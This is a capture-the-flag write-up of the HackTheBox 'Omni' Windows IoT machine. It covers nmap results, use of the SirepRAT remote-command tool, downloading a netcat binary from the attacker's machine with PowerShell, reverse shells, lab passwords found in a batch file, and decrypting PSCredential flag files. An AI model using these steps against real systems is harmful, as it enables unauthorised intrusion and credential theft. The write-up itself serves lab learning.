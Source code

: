 # HackTheBox-Omin

## NMAP

```
Host is up (0.21s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.80%I=7%D=11/16%Time=5FB29B69%P=x86_64-pc-linux-gnu%r(
SF:NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,
SF:"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x
SF:04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\
SF:xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 355.84 seconds

```

## PORT 8080

<img src="https://imgur.com/t5dBZhD.png"/>

The site was asking me for credentials , I tried to goolge deafult password for `Windows Device Portal`


User Name :Administrator
password  :p@ssw0rd

But these credentials didn't work that I found on google


<img src="https://imgur.com/Vxpm1PC.png"/>

Then I came to know that this is an IoT box also I found a repository on GitHub which is a script that acts as RAT (Remote Access Trojan)

<img src="https://imgur.com/IJPzGDR.png"/>

https://github.com/SafeBreach-Labs/SirepRAT

I tried running commands that were on the repository so basically you want to install `hexdump` module on python2 because these works with python2 

<img src="https://imgur.com/sWYbCPF.png"/>


<img src="https://imgur.com/ik4yaSG.png"/>

So our RAT is working perfectly!

Now let's try to craft a backdoor to get a reverse shell and start metasploit listener 

<img src="https://imgur.com/bb6JZpQ.png"/>

But this didn't worked 

<img src="https://imgur.com/OEEO6Je.png"/>

Let's try to upload a `netcat` binary by hosting on our local machine and using `powershell Invoke-WebRequest -Uri $ip -OutFile $filepath`

<img src="https://imgur.com/yNrOwo0.png"/>

So it did it get transfered on the target box

<img src="https://imgur.com/RWM1K1d.png"/>

Looks like this version of `netcat` is not compatible , I then again tried to upload `netcat64.exe` and we got a hit 

<img src="https://imgur.com/KSuEEJV.png"/>

So let's keep our fingers crossed and hope we get a reverse shell

<img src="https://imgur.com/1ikwQsr.png"/>

And we got it :D

<img src="https://imgur.com/52p0i4q.png"/>

Here we can see there are 3 drives and we are in `C` drive where as in `D` drive we can see the `app` and `administrator` folder but we are not able to access them and `D` drive is formatted correctly so we cannot access it

By using `dir /a` we can see the hidden folder although we could have used powershell and used `ls -la` but this still gets our job done so when reading the contents of `r.bat ` we can two users as we suspected and what `net user ` is doing is that changing the password of both the users also it is also deleting that account in a loop

<img src="https://imgur.com/NNdZnM3.png"/>

```
net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz
```

So I think we could not switch users as we do in linux atleast I don't know how to do it I tried googling in pasting the commands but didn't work so I assumed that this would be the password for that `Windows Device Portal` that we saw in the beginning .

<img src="https://imgur.com/p6Prnng.png"/>

So once I got into the application I looked around that what can I do with it and found where I can run system commands

<img src="https://imgur.com/Dbdob1n.png"/>

Now to see that which user are we , I tried ruuning `whoami` it failed but when I ran `echo %username%` it showed me that I'm Administrator so let's find a way to get a shell from here

<img src="https://imgur.com/c3nb2om.png"/>

Now we already uploaded `nc64.exe` in `C:\Windows\Temp` 

<img src="https://imgur.com/GJEdxsd.png"/>

<img src="https://imgur.com/KMFULV4.png"/>

Now we can't really read the contents of `user.txt` and `root.txt` because they are stored as an credential object in powershell which is called `PSCredential Object`

Now inorder to decrypt `user.txt` we need to be logged in as ther user in which that file `user.txt` in and for `root.txt` we need to be an administrator so we are admintrator let's try to decrypt that flag for now and then we will switch to `app` user


First we create an object in which that file is stored

`$file = Import-Clixml -Path U:\Users\administrator\root.txt`

Then if it gives no errors this command ran sucessfully

`$file.GetNetworkCredential().password`

Then this would use this an object to call a function to grab the password

<img src="https://imgur.com/gpenN2p.png"/>

Now for `app` user I'm going to quickly log in as him through `Windows Device Portal` run the netcat binary and caputre the reverse shell

Inorder to do that since there was no `logout` option on that portal I had to clear all browser's data then logged in with the password that we found for `app`

<img src="https://imgur.com/aNJpqUs.png"/>

I tried ruuning the `nc64.exe` binary but it was giving accessed denied so there was `Public` directory in `C` drive I uploaded the binary there

<img src="https://imgur.com/LgCK6Ni.png"/>

<img src="https://imgur.com/z7ZCtDH.png"/>

And we have a shell as `app` finally 

<img src="https://imgur.com/5iybuaf.png"/>

And we got the user flag as well

This link was really helpful for me to decrypt the password or in this case flag `https://www.travisgan.com/2015/06/powershell-password-encryption.html`